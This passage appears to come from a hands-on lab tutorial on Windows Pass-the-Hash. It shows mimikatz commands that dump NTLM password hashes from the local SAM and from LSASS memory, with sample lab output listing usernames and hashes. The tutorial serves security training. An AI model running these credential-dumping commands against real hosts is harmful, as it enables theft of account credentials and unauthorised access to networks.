 As a result of extracting credentials from a host where we have attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.

Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can **Pass-the-Hash** (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

### **Extracting NTLM hashes from local SAM:**

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

THMJMP2:Powershell

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

### **Extracting NTLM hashes from LSASS memory:**

This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

THMJMP2:Powershell

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```
